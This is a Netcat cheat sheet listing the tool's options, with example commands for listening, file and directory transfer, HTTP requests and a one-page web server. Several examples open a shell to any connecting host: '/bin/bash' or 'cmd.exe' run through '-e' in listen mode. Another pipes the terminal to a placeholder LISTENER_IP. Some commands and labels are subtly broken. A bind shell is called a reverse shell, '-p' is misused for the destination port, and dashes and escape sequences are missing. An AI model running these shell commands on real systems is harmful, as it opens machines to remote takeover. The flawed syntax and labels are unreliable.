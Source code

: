 ## À quoi sert Netcat ?

**Netcat** or **nc**, is a well-known network analysis tool, also known as the Swiss army knife of hackers, because it has many features, similar to the described knife.

---

### Netcat Cheat Sheet

| **Options**       | **Description**                                                                                                                                                                                                                                 |
| ----------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| -4                | Forces the use of IPv4 (GNU Netcat)                                                                                                                                                                                                             |
| -6                | Forces the use of IPv6 (GNU Netcat)                                                                                                                                                                                                             |
| -d                | Releases Netcat from the console (running in the background; available in Windows and current GNU Netcat versions)                                                                                                                              |
| -D                | Activates the option for debugging sockets (GNU Netcat)                                                                                                                                                                                         |
| -h (display help) | Displays help (commands/options with a short description)                                                                                                                                                                                       |
| -i (secs)         | Delays in seconds for sent lines or scanned ports                                                                                                                                                                                               |
| -k                | At the end of a connection, Netcat waits for a new connection (only possible with GNU Netcat and only in combination with “-l”)                                                                                                                 |
| -l (listen mode)  | Listen and server mode for incoming connection requests (via port indicated)                                                                                                                                                                    |
| -L Listen harder  | Netcat also continues to operate in listen mode after client-side connection terminations (consistently with the same parameters; only supported by the Windows version)                                                                        |
| -n (numeric only) | Only IP numbers, no DNS names                                                                                                                                                                                                                   |
| -o (file)         | A hex dump is carried out for the data traffic (content of files represented in a hexadecimal view); used for fault finding (debugging network applications); recording/sniffing communication is possible (for outgoing and incoming packages) |
| -p (port)         | Enters the local source port that Netcat should use for outgoing connections                                                                                                                                                                    |
| -r                | Use of random port values when scanning (for local and remote ports)                                                                                                                                                                            |
| -s (address)      | Defines the local source address (IP address or name)                                                                                                                                                                                           |
| -t                | Telnet mode (enables server contact via Telnet); requires a special compilation of Netcat, otherwise the option is not available.                                                                                                               |
| -u                | Use of UDP mode (instead of TCP)                                                                                                                                                                                                                |
| -U (gateway)      | Netcat uses Unix domain sockets (GNU Netcat)                                                                                                                                                                                                    |
| -v                | Extensive output (e.g. responsible for the display and scope of displayed fault messages)                                                                                                                                                       |
| -w (secs)         | Defines timeouts; for establishing and terminating connections (unit: seconds)                                                                                                                                                                  |
| -z                | Port scanner mode (zero I/O mode); only listening services are scanned (no data is sent)                                                                                                                                                        |

- Netcat listening on port 567/TCP :

```bash
nc -lnvp 567
```

- Connecting to that port from another machine :

```bash
nc 1.2.3.4 -p 567
```

- To pipe a text file to the listener :

```bash
cat infile | nc 1.2.3.4 -p 567 -q 10
```

- To have the listener save a received text file :

```bash
nc -lnvp 567 > textfile
```

- To transfer a directory, first at the receiving end set up :

```bash
nc -lnvp 678 | tar xvfpz
```

- Then send the directory :

```bash
tar zcfp - /path/to/directory | nc -w 3 1.2.3.4 -p 678
```

- To send a message to your syslog server (the <0> means emerg) :

```bash
echo '<0>message' | nc -w 1 -u syslogger -p 514
```

- Setting up a remote shell listener (reverse shell) :

```bash
nc -v -e '/bin/bash' -l -p 1234 -t
```

or

```bash
nc l -p 1234 -e "c:\windows\system32\cmd.exe"
```

Then telnet to port 1234 from elsewhere to get the shell.

- Using netcat to make an HTTP request :

```bash
echo -e "GET http://www.google.com HTTP/1.0nn" | nc -w 5 www.google.com 80
```

- Making a one-page webserver; this will feed homepage.txt to all comers :

```bash
cat homepage.txt | nc -v -l -p 80
```

- and if you want to create an tty for made an text communication by tty share :

```bash
cat /dev/tty | nc LISTENER_IP 4444
```

```bash
nc -lnvp 4444
```
